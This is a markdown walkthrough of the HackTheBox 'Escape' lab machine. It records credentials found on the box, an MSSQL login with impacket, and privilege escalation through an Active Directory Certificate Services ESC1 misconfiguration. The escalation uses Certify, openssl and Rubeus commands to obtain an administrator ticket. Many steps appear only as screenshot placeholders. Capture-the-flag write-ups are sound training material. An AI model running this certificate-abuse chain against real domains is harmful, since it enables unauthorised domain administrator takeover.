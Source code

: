 ```yaml
---
title: "Escape"
date: 2024-08-18
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "escape", "writeup", "htb"]
---
```


# Escape

# Escape

## Credentials
# Credentials
| Username                | Password            | Hash | Source                         |
| ----------------------- | ------------------- | ---- | ------------------------------ |
| brandon.brown@sequl.htb |                     |      | SMB-SQL Server Procedures.pdf  |
| PublicUser              | GuestUserCantWrite1 |      |                                |
| sql_svc                 | REGGIE1234ronnie    |      | SQL hash                       |
|                         | NuclearMosquito3    |      | C:\SQLServer\Logs\ERRORLOG.bak |

# Enumeration
## SMB
![[/assets/images/escape1.png]]
## SQL Server Procedures.pdf
![[/assets/images/escape2.png]]

![[/assets/images/escape3.png]]

 n  

# MSSQL
```sh
impacket-mssqlclient PublicUser@10.10.11.202 -windows-auth
```

![[/assets/images/escape4.png]]

# Foothold

![[/assets/images/escape5.png]]

![[/assets/images/escape6.png]]

![[/assets/images/escape7.png]]

![[/assets/images/escape8.png]]

**![[/assets/images/escape9.png]]
## Lateral Movement
![[/assets/images/escape10.png]]

# Privilege Escalation
![[/assets/images/escape11.png]]
![[/assets/images/escape12.png]]

At this point, we need to find a way to elevate our privileges. Looking back at our initial enumeration output from Nmap we can see a lot of certificate related output. This is a strong indication that there is a Certificate Authority running. We can use Certify to enumerate possible misconfiguration in Active Directory Certificate Services.

![[/assets/images/escape13.png]]

```powershell
upload Certify.exe
.\Certify.exe cas
```

![[/assets/images/escape14.png]]

Enumerate vulnerable certificates
```powershell
.\Certify.exe find /vulnerable
```

![[/assets/images/escape15.png]]

Vulnerable template `UserAuthentication`. 
`Authenticated Users` can enroll for this template and since the `msPKI-Certificate-Name-Flag` is present and contains `ENROLLE_SUPPLIES_OBJECT` the template is vulnerable to the [ESC1](https://m365internals.com/2022/11/07/investigating-certificate-template-enrollment-attacks-adcs/) scenario. Essentially, this allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name. Meaning that, we could authenticate as a Domain Administrator by exploiting this attack path. 

# Certify + Rubeus
```powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

![[/assets/images/escape16.png]]

copy everything from `-----BEGIN RSA PRIVATE KEY-----` to `-----END CERTIFICATE-----` into a file on my host and convert it to a `.pfx` using the command given, entering no password when prompted:

```sh
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![[/assets/images/escape17.png]]

I’ll upload `cert.pfx`, as well as a copy of [Rubeus](https://github.com/GhostPack/Rubeus) (downloaded from [SharpCollection](https://github.com/Flangvik/SharpCollection)), and then run the `asktgt` command, passing it the certificate to get a TGT as administrator:

```powershell
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```

![[/assets/images/escape18.png]]

![[/assets/images/escape19.png]]



